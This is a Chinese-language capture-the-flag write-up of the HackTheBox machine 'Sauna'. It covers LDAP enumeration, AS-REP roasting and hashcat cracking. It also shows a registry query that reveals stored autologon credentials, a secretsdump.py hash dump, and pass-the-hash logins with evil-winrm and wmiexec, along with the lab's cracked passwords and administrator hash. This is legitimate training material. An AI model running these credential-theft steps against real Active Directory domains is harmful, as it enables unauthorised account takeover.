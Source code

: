 ```yaml
---
title: Sauna
date: 2021-12-24 13:54:20
tags: HackThebox
categories: 内网渗透
---
```


## 靶机信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/0c4f7155f0a144fca320112bb07de39c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 信息收集
发现开放了445，80，88，5985这些常见的可能存在漏洞的端口。因为存在ldap服务，可能考虑到存在内网
![在这里插入图片描述](https://img-blog.csdnimg.cn/18c6ed7749514992adad88f2a6fa97f2.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

发现了smb服务，尝试是否可以登录
![在这里插入图片描述](https://img-blog.csdnimg.cn/cae8f24d7edf4d9ab4db6a15e3d5c60b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
登录失败，那我们查看一下ldap有没有什么有价值的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/f0249267ceca4d73943001c895249779.png)

```bash
ldapsearch -x -H ldap://10.10.10.175 -b "dc=EGOTISTICAL-BANK,dc=local"
```

```bash
# extended LDIF
#
# LDAPv3
# base <dc=EGOTISTICAL-BANK,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#
# EGOTISTICAL-BANK.LOCAL
dn: DC=EGOTISTICAL-BANK,DC=LOCAL
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL
instanceType: 5
whenCreated: 20200123054425.0Z
whenChanged: 20211018114224.0Z
subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAQL7gs8Yl7ESyuZ/4XESy7A==
uSNChanged: 98336
name: EGOTISTICAL-BANK
objectGUID:: 7AZOUMEioUOTwM9IB/gzYw==
replUpToDateVector:: AgAAAAAAAAAGAAAAAAAAAEbG/1RIhXVKvwnC1AVq4o8WgAEAAAAAAJ/uf
 RcDAAAAq4zveNFJhUSywu2cZf6vrQzgAAAAAAAAKDj+FgMAAADc0VSB8WEuQrRECkAJ5oR1FXABAA
 AAAADUbg8XAwAAAP1ahZJG3l5BqlZuakAj9gwL0AAAAAAAANDwChUDAAAAm/DFn2wdfEWLFfovGj4
 TThRgAQAAAAAAENUAFwMAAABAvuCzxiXsRLK5n/hcRLLsCbAAAAAAAADUBFIUAwAAAA==
creationTime: 132790309446175365
forceLogoff: -9223372036854775808
lockoutDuration: -18000000000
lockOutObservationWindow: -18000000000
lockoutThreshold: 0
maxPwdAge: -36288000000000
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
nextRid: 1000
pwdProperties: 1
pwdHistoryLength: 24
objectSid:: AQQAAAAAAAUVAAAA+o7VsIowlbg+rLZG
serverState: 1
uASCompat: 1
modifiedCount: 1
auditingPolicy:: AAE=
nTMixedDomain: 0
rIDManagerReference: CN=RID Manager$,CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
fSMORoleOwner: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name
 ,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
systemFlags: -1946157056
wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=EGOT
 ISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Progra
 m Data,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrin
 cipals,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=
 EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=E
 GOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=EGOTISTIC
 AL-BANK,DC=LOCAL
wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,
 DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=EGOTISTICA
 L-BANK,DC=LOCAL
objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,D
 C=LOCAL
isCriticalSystemObject: TRUE
gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=Syste
 m,DC=EGOTISTICAL-BANK,DC=LOCAL;0]
dSCorePropagationData: 16010101000000.0Z
otherWellKnownObjects: B:32:683A24E2E8164BD3AF86AC3C2CF3F981:CN=Keys,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
otherWellKnownObjects: B:32:1EB93889E40C45DF9F0C64D23BBB6237:CN=Managed Servic
 e Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN
 =Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
ms-DS-MachineAccountQuota: 10
msDS-Behavior-Version: 7
msDS-PerUserTrustQuota: 1
msDS-AllUsersTrustQuota: 1000
msDS-PerUserTrustTombstonesQuota: 10
msDs-masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Na
 me,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-IsDomainFor: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-N
 ame,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-NcType: 0
msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE
dc: EGOTISTICAL-BANK
# Users, EGOTISTICAL-BANK.LOCAL
dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
# Computers, EGOTISTICAL-BANK.LOCAL
dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL
# Domain Controllers, EGOTISTICAL-BANK.LOCAL
dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL
# System, EGOTISTICAL-BANK.LOCAL
dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
# LostAndFound, EGOTISTICAL-BANK.LOCAL
dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL
# Infrastructure, EGOTISTICAL-BANK.LOCAL
dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL
# ForeignSecurityPrincipals, EGOTISTICAL-BANK.LOCAL
dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL
# Program Data, EGOTISTICAL-BANK.LOCAL
dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
# NTDS Quotas, EGOTISTICAL-BANK.LOCAL
dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL
# Managed Service Accounts, EGOTISTICAL-BANK.LOCAL
dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
# Keys, EGOTISTICAL-BANK.LOCAL
dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL
# TPM Devices, EGOTISTICAL-BANK.LOCAL
dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL
# Builtin, EGOTISTICAL-BANK.LOCAL
dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL
# Hugo Smith, EGOTISTICAL-BANK.LOCAL
dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
# search reference
ref: ldap://ForestDnsZones.EGOTISTICAL-BANK.LOCAL/DC=ForestDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL
# search reference
ref: ldap://DomainDnsZones.EGOTISTICAL-BANK.LOCAL/DC=DomainDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL
# search reference
ref: ldap://EGOTISTICAL-BANK.LOCAL/CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOC
 AL
# search result
search: 2
result: 0 Success
# numResponses: 19
# numEntries: 15
# numReferences: 3
```
<!--more-->

我们发现了一个可疑的用户。虽然是找到了用户名，但是我们不没有找到相对应的凭据。这时候我们切换一下思路，浏览一下web服务中有什么有价值的信息可以提供给我们的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/b628002a16b3488681fd917e8308c38f.png)
在关于页面，我们看到了这两个用户的信息，长得貌似和我们信息收集出来的用户信息有点类似。那我们可以猜测这有可能是系统中真实存在的用户。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c588d6ef57d149fabf5e731d9cc5036d.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试获取一下用户对应的哈希值，使用的工具是kerbrute，发现存在`hsmith`和`fsmith`这两个用户并且发现了它们的TGT条目。![在这里插入图片描述](https://img-blog.csdnimg.cn/2627486af25c47ab96b900a0ec75f39b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们先使用impacket包中的`GetNPUsers.py`获取fsmith用户的hash值。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0949aa761a34cd5ac4cb072c102afb1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将他的hash值保存为一个文件，使用hashcat尝试能不能破解成功。破解成功的密码明文值为`Thestrokes23`。这里解释一下参数的含义，-m指的是指定文件的散列值类型，-a指的是指定破解模式，-w是指定字典。

```bash
hashcat -m 18200 -a 0 -w 3 fsmith.hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/41e6765292b042028af2e5a18a7e63c0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e09120c6a3ab4d2ebc84502a9a0a58b4.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/353674983008426c8e5578b2c332cf9c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
既然破解到了密码，那我们可以登录SMB和WinRM服务了。我们先查看SMB服务，发现了两个共享服务，但是没有一个是有用的。。。
![在这里插入图片描述](https://img-blog.csdnimg.cn/03e072a109fb4bbea8beb8f0a955ab09.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们尝试利用WinRM吧，登录成功，拿到第一个flag值。
![在这里插入图片描述](https://img-blog.csdnimg.cn/6b0e08188c09403f95a20de67f6292de.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权
我们拿到的只是普通用户的权限，我们的目标当然是管理员权限。首先我们先看看都存在哪些用户，发现存在一个svc_loanmgr用户。
![在这里插入图片描述](https://img-blog.csdnimg.cn/db445cc21449494680e87b2d7ae329f8.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用powershell命令查看到它对应的密码。

```powershell
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d774cd7d287541eb8c6c68b368fe0424.png)
这个命令要记住它还是有一定难度的，我们也可以通过上传`WindowsEnum.ps1`脚本来完成这任务。
![在这里插入图片描述](https://img-blog.csdnimg.cn/86d1160f61414340a78ab8afd834f34a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/8c4904ed1ffe46219f42192926e2b54c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现这个密码后，我们可以尝试使用登陆进去。但是我试了很多次都是登陆失败
![在这里插入图片描述](https://img-blog.csdnimg.cn/431a23d1a026444781060ce56c83ade6.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那没办法了，我尝试使用`secretsdump.py`脚本看看能不能成功获取到这个用户的哈希值。我们意外发现administrator的hash值，发大财了

```bash
secretsdump.py -dc-ip 10.10.10.175 svc_loanmgr:Moneymakestheworldgoround\!@10.10.10.175
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/24f4c7e28cee4d33bef37d56e48ad59a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用`evil-winrm`进行登录，同时我们还可以使用`wmiexec.py`这个脚本进行登录，但是后者的速度要相较前者慢得多

```bash
evil-winrm -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e -i 10.10.10.175
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/42316c86c9ba4720b9fd0f6684ecec19.png)

```bash
wmiexec.py -hashes :823452073d75b9d1cf70ebdf86c7f98e administrator@10.10.10.175
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/b57c846f068946208ef0673c1765edf0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
